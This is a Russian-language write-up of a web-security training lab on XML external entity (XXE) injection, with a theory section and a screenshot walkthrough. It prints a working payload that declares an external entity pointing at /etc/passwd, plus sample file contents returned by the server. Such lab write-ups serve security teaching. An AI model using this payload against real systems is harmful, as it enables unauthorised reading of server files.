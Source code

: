 # Exploiting XXE using external entities to retrieve files

## Theory

<h3>Эксплуатация XXE для извлечения файлов</h3>

Чтобы выполнить атаку с внедрением XXE, которая извлекает произвольный файл из файловой системы сервера, вам необходимо изменить отправленный XML двумя действиями:

* Введите (или отредактируйте) элемент DOCTYPE, определяющий внешний объект, содержащий путь к файлу.
* Отредактируйте значение данных в XML, которое возвращается в ответе приложения, чтобы использовать определенный внешний объект.

Например, предположим, что приложение для покупок проверяет наличие товара на складе, отправляя на сервер следующий XML-код:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Приложение не обеспечивает особой защиты от атак XXE, поэтому вы можете использовать уязвимость XXE для получения файла /etc/passwd, отправив следующую полезную нагрузку XXE:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Эта полезная нагрузка XXE определяет внешний объект &xxe; значение которого является содержимым файла /etc/passwd и использует сущность в значении productId. Это приводит к тому, что ответ приложения включает содержимое файла:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/4.png)

Модифицируем запрос. Код экплоита:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/5.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_XXE_using_external_entities_to_retrieve_files/assets/6.png)
